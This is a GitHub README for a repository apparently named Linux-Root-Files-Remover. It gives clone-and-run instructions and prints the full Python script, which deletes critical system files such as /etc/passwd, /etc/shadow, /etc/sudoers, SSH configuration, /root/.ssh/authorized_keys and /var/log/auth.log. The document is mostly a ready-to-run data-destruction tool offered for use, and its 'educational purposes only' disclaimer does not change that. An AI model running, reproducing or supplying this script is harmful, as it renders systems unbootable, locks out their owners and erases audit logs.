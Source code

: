 <!--Linux-Root-Files-Remover -->

<p align="center">
  <img src="images.png">
</p>

<h3><p align="center">Deleting Linux Root Files</p></h3>

This python script is used to delete critical system files and can cause a lot of damage if misused.

<h5><p align="center">How to Use This Script</p></h5>

<h3><p align="center">Run Python File</p></h3>

1. Install Python on your system if it is not already installed. You can download it from the official Python website.

2. Clone the repo to your device 

3. Open a terminal/command prompt and navigate to the directory where you saved the python file.

4. Run the python script using the command `Linux-Root.py`. This will execute the script and delete the files listed in the `files_to_delete` list.

<h3><p align="center">Run Bash File</p></h3>

- Just, Clone this repository -
  ```
  git clone https://github.com/7ussainnabeel/Linux-Root-Files.git
  ```

- Now go to cloned directory and run `Linux-Root.sh` -
  ```
  $ cd LINUX-ROOT-FILES
  $ bash Linux-Root.sh
  ```
##

<h3><p align="center">Code Explanation</p></h3>

```python
import os

files_to_delete = [
    "/etc/passwd",
    "/etc/shadow",
    "/etc/group",
    "/etc/sudoers",
    "/etc/ssh/sshd_config",
    "/etc/hosts",
    "/etc/network/interfaces",
    "/etc/fstab",
    "/etc/hostname",
    "/etc/resolv.conf",
    "/etc/securetty",
    "/etc/motd",
    "/var/log/auth.log",
    "/root/.ssh/authorized_keys",
    "/etc/hosts.allow",
    "/etc/hosts.deny",
    "/etc/crontab",
    "/etc/cron.d/",
    "/etc/passwd-",
    "/etc/shadow-",
]

for file in files_to_delete:
    if os.path.exists(file):
        os.remove(file)
        print(f"Deleted {file}")
    else:
        print(f"{file} does not exist")

The script first imports the os module which provides a way to interact with the system.

The files_to_delete list contains the file paths of the files that the script will delete.

The script then iterates over each file in the files_to_delete list. If the file exists, it is deleted using the os.remove() function. The print() function is used to display a message indicating whether the file was deleted successfully or not.

This Tool is made for educational purposes only. Do not attempt to violate the law with anything contained here. If this is your intention, then Get the hell out of here!